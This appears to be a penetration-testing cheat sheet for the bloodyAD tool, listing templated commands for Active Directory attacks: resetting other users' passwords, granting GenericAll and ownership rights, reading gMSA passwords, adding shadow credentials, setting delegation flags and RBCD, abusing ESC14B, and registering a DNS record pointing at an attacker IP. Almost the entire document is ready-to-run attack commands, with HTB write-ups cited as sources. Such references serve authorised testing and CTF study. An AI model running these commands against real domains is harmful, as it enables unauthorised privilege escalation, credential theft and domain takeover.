 ```yaml
---
title: BloodyAD Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [BloodyAD]
---
```

# Installation
## Using uv
```bash
uv tool install bloodyAD
```
## Using pipx
```bash
pipx install bloodyAD
```
# Usage
## Retrieve User Information
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username
```
## Add User To Group
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```
## Change Password
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```
## Give User GenericAll Rights
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username
```
## WriteOwner
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username
```
## ReadGMSAPassword
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_username --attr msDS-ManagedPassword
```
## Enable a Disabled Account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE
```
## Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add uac $target_username -f TRUSTED_TO_AUTH_FOR_DELEGATION
```
## Modify UPN
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
Check if it has been modified
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```
## MachineAccountQuota

Enumerate MachineAccountQuota
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
Set MachineAccountQuota value to 10
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```
## Modify mail
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```
## Modify the altSecurityIdentities attribute (ESC14B)
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
## Find Writable Attributes
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```
## Shadow Credentials
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
``` 
## WriteSPN
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```
## Find Deleted Objects
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```
## Extended Search Operations
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get search -h
```
example:
```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```
## Restore a deleted object
```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
```
## Create a new computer account
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```
## Add Resource Based Constrained Delegation
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```
## Register a DNS Record
```bash
bloodyAD --host $dc -d $domain -u $username -p $password add dnsRecord $record_name $attacker_ip
```

## Notes
- Pass `-k` to use kerberos authentication
- You can pass a user hash instead of a password using `-p` :hash
- Specify format for ‘–password’ or ‘-k ‘ using `-f`, e.g. `-f rc4`

## Resources

- https://github.com/CravateRouge/bloodyAD/wiki/User-Guide
- https://0xdf.gitlab.io/2024/03/30/htb-rebound.html
- https://0xdf.gitlab.io/2025/04/26/htb-vintage.html
- https://www.thehacker.recipes/
